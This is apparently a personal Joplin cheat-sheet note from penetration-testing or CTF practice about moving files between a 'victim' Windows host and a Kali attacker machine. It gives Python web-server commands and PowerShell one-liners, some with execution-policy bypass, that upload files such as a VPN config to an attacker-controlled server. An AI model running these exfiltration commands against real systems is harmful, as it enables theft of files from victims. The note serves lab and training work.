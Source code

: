 Web Server

Download or Upload files by setting up a webserver

From Client(Victim):

# Download: Just turn on webserver in the folder

> python2 -m SimpleHTTPServer 8000
> 
> sudo python3 -m http.server 8001

# Upload:

Turn on the upload server in /var/www/html:

> python3 http-server.py -p 8000 --no-ssl

On the client side, Use powershell commands to send the file

> (New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', 'lincoln.lg.ovpn')
> 
> powershell -nop -exec bypass -c "(New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', 'lincoln.lg.ovpn')"

If we want to send text, we can use PUT command

> Invoke-RestMethod -Uri "http://127.0.0.1:8000/Hello.txt" -Method PUT -Body "Hello"

# Old upload method:

- Start http server in /var/www/html/:
    - sudo python2 -m SimpleHTTPServer 8001
- Run the following powershell code in the Windows Host:
    - powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://192.168.19.29:8001/upload.php', '<file to="" upload="">')"</file>
- Find the file in Kali under /var/www/uploads/

> powershell -nop -exec bypass Invoke-RestMethod -Uri [http://<*Your Kali IP*>/upload.php](http://10.10.14.29/php/upload.php) -Method Post -Infile '&lt;filename&gt;'

https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9

id: 6542c907ee3d4b659b0fd7588c5dbe48
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-17T09:41:31.093Z
updated_time: 2022-01-19T07:44:22.874Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-17T09:41:31.093Z
user_updated_time: 2022-01-19T07:44:22.874Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
